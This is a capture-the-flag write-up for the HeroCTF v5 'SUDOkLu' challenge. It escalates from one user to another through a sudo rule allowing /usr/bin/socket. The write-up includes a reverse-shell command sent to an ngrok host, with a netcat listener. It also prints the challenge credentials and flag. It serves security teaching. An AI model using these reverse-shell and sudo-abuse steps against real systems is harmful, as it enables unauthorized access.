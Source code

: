 # SUDOkLu

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Conclusion](#conclusion)

## Overview

- 199 solves / 50 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This is a warmup to get you going. Your task is to read `/home/privilegeduser/flag.txt`. For our new commers, the title might steer you in the right direction ;). Good luck!  
  
Credentials: `user:password123`  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513161445.png)

## Enumeration

**In this challenge, we can SSH into user `user`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/SUDOkLu)-[2023.05.13|16:15:23(HKT)]
└> ssh user@dyn-03.heroctf.fr -p 12297     
[...]
user@dyn-03.heroctf.fr's password: 
[...]
user@sudoklu:~$ whoami;hostname;id
user
sudoklu
uid=1000(user) gid=1000(user) groups=1000(user)
```

**In `/etc/passwd` and `/home` directory, there's a `privilegeduser`:**
```shell
user@sudoklu:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:,,,:/home/user:/bin/bash
privilegeduser:x:1001:1001:,,,:/home/privilegeduser:/bin/bash
user@sudoklu:~$ ls -lah /home
total 20K
drwxr-xr-x 1 root           root           4.0K May 12 10:35 .
drwxr-xr-x 1 root           root           4.0K May 13 08:15 ..
drwxr-x--- 1 privilegeduser privilegeduser 4.0K May 12 10:36 privilegeduser
drwxr-x--- 1 user           user           4.0K May 13 08:15 user
```

Our goal is to access `privilegeduser` home directory and read the flag.

**One of the common privilege escalation in Linux is Sudo permission:**
```shell
user@sudoklu:~$ sudo -l
Matching Defaults entries for user on sudoklu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User user may run the following commands on sudoklu:
    (privilegeduser) NOPASSWD: /usr/bin/socket
```

As you can see, user `privilegeduser` can run `/usr/bin/socket` **without password**.

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/socket/), we can get a reverse shell!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513161815.png)

**To do so, we first fire up a port forwarding service, like Ngrok: (This is because the instance machine can't reach to our local network)**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/SUDOkLu)-[2023.05.13|16:19:27(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:18001 -> localhost:4444
[...]
```

**Then, setup a `nc` listener:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/SUDOkLu)-[2023.05.13|16:19:39(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
```

**Finally, send the reverse shell payload:**
```shell
user@sudoklu:~$ sudo -u privilegeduser /usr/bin/socket -qvp '/bin/bash -i' 0.tcp.ap.ngrok.io 18001
inet: connected to 0.tcp.ap.ngrok.io port 18001
```

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/SUDOkLu)-[2023.05.13|16:19:39(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35586
privilegeduser@sudoklu:/home/user$ 
```

**Nice! We got a shell! Let's read the flag!**
```shell
privilegeduser@sudoklu:/home/user$ cd ~
cd ~
privilegeduser@sudoklu:~$ ls -lah
ls -lah
total 28K
drwxr-x--- 1 privilegeduser privilegeduser 4.0K May 12 10:36 .
drwxr-xr-x 1 root           root           4.0K May 12 10:35 ..
lrwxrwxrwx 1 root           root              9 May 12 10:36 .bash_history -> /dev/null
-rw-r--r-- 1 privilegeduser privilegeduser  220 May 12 10:35 .bash_logout
-rw-r--r-- 1 privilegeduser privilegeduser 3.7K May 12 10:35 .bashrc
-rw-r--r-- 1 privilegeduser privilegeduser  807 May 12 10:35 .profile
-r-------- 1 privilegeduser privilegeduser   34 May 12 10:36 flag.txt
privilegeduser@sudoklu:~$ cat flag.txt
cat flag.txt
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```

- **Flag: `Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}`**

## Conclusion

What we've learned:

1. Horizontal Privilege Escalation Via Misconfigurated `/usr/bin/socket` Sudo Permission